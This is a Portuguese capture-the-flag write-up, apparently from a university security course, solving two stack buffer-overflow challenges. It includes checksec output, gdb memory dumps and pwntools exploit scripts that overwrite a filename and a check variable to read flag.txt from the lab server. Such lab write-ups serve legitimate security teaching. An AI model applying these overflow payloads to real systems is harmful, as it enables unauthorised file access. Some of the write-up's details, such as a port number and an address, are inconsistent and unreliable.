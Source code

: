 # CTF 5

## Desafio 1

### Contexto

A plataforma CTF fornece um ficheiro ZIP com os seguintes ficheiros: um executável (program), o código fonte (main.c) e um script em python (exploit-example.py). Para além disso, é indicado que o serviço se encontra à escuta na porta 4003 do host ctf-fsi.fe.up.pt. Para contactar este serviço pode utilizar-se o programa netcat da shell seguinte forma nc ctf-fsi.fe.up.pt 4003, ou executar o script em python que é fornecido ($ python3 exploit-example.py) de forma a interagir com o serviço.

A flag encontra-se num ficheiro chamado flag.txt, no working directory. O objetivo é de alguma forma ler este ficheiro tomando controlo das funcionalidades do programa que se encontra a correr.

### Checksec

~~~ 
[*] '/home/diogo/Documents/FSI/CTF 3/Desafio1/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments 
~~~

### Code Analysis

- Para começar, compilamos o main.c com o Address Sanitizer para ver se existia algum erro de memória. Ao corrermos o código, reparamos que havia um erro de buffer overflow na chamada à função scanf.

- O scanf é o input do utilizador para um buffer de 32 bytes, mas o scanf não verifica o tamanho do input, o que permite que o utilizador escreva mais do que 32 bytes para o buffer, o que causa um buffer overflow.

- O ficheiro mem.txt é aberto para leitura no programa, mas, como não é criado por este, podemos mudar qual o ficheiro aberto, para isso temos que fazer um buffer overflow para mudar o valor da variável filename.

- Com o gdb encontramos o endereço do buffer:

```bash
(gdb) x/40x buffer
0xffffd658:	0x00000000	0x00000000	0xffffffff	0xf7c0c840
0xffffd668:	0xf7fc1380	0x00000000	0x00000000	0x00000000
0xffffd678:	0x2e6d656d	0x00747874	0x00000000	0xf7e20e34
0xffffd688:	0x00000000	0xf7c23af9	0x00000001	0xffffd744
0xffffd698:	0xffffd74c	0xffffd6b0	0xf7e20e34	0x08049236
0xffffd6a8:	0x00000001	0xffffd744	0xf7e20e34	0x08049320
0xffffd6b8:	0xf7ffcb80	0x00000000	0x7237a9ce	0x09efe3de
0xffffd6c8:	0x00000000	0x00000000	0x00000000	0xf7ffcb80
0xffffd6d8:	0x00000000	0x2e237200	0xf7ffda30	0xf7c23a86
0xffffd6e8:	0xf7e20e34	0xf7c23bbd	0xf7fc9c48	0x0804b2b8
```

- 0xfffd658 é o inicio do buffer e como o buffer tem 32 bytes, sabemos que o endereço da variável filename é 0xffffd678. Confirmamos tal fazendo uso ao seguinte comando:

```bash
(gdb) x meme_file 
0xffffd678:	0x2e6d656d
```

### Exploit 

~~~
from pwn import *

target = './program'
io = connect('ctf-fsi.fe.up.pt', 4003)

payload = b'A'*32 + b'flag.txt\0'

io.sendline(payload)

output = io.recvall()
print(output)
~~~

O exploit que criamos funciona da seguinte forma:

1. Conectamo-nos ao servidor com `io = connect('ctf-fsi.fe.up.pt', 4003)`
2. Criamos um payload que enche o buffer e escreve por cima do endereço correspondente ao filename já que o mesmo se encontra a seguir ao buffer.
3. Mandamos o payload pelo terminal, o filename passa a ser flag.txt e a mesma é impressa .


## Desafio 2

### Contexto

Novamente, é fornecido um ficheiro ZIP com um executável (program) e o código fonte (main.c). Podes e deves adaptar o script python que te foi dado anteriormente para interagir com este novo desafio. O Desafio 2 é uma versão ligeiramente mais elaborada do Desafio 1 e está disponível na porta 4000

### Checksec

[*] '/home/diogo/Documents/FSI/CTF 3/Desafio2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments

### Code Analysis

- Este problema é semelhante ao anterior, mas adiciona uma verificação de uma variável val que pode ser sobreposta com o buffer overflow da mesma maneira que a anterior.

```
bash
(gdb) x/40 buffer
0xffffd653:	0x00000000	0x00000000	0x00000000	0xffffff00
0xffffd663:	0xc0c840ff	0xfc1380f7	0x000000f7	0x00000000
0xffffd673:	0x2e6d656d	0x00747874	0xadbeef00	0x000000de
0xffffd683:	0xe20e3400	0x000000f7	0xc23af900	0x000001f7
0xffffd693:	0xffd74400	0xffd74cff	0xffd6b0ff	0xe20e34ff
0xffffd6a3:	0x049236f7	0x00000108	0xffd74400	0xe20e34ff
0xffffd6b3:	0x049340f7	0xffcb8008	0x000000f7	0x1b422300
0xffffd6c3:	0xc30833d4	0x000000af	0x00000000	0x00000000
0xffffd6d3:	0xffcb8000	0x000000f7	0x05510000	0xffda3028
0xffffd6e3:	0xc23a86f7	0xe20e34f7	0xc23bbdf7	0xfc9c48f7
(gdb) x meme_file 
0xffffd673:	0x2e6d656d
(gdb) x val
0xffffd67c:	0xdeadbeef
```
- O endereço da variável val é 0xffffd67c, o endereco do buffer é 0xffffd653 e o endereço do filename é 0xffffd673, o que significa que temos de encher o buffer e escrever por cima do val e do filename.
 
### Exploit 

~~~
from pwn import *

target = './program'
io = connect('ctf-fsi.fe.up.pt', 4000)

payload = b'A'*32 + b'\x24\x23\xfc\xfe'+b'flag.txt\0'

io.sendline(payload)

output = io.recvall()
print(output)
~~~

O exploit que criamos funciona da seguinte forma:

1. Conectamos-nos ao servidor com `io = connect('ctf-fsi.fe.up.pt', 4003)`. E mandamos o payload pelo terminal o filename passa a ser flag.txt, conseguimos ultrapassar a verificação do val e a flag é impressa.
   
2. Criamos um payload que enche o buffer, escreve por cima do val e escreve por cima do endereço correspondente ao filename.

3. E mandamos o payload pelo terminal o filename passa a ser flag.txt, conseguimos ultrapassar a verificação do val e a flag é impressa.

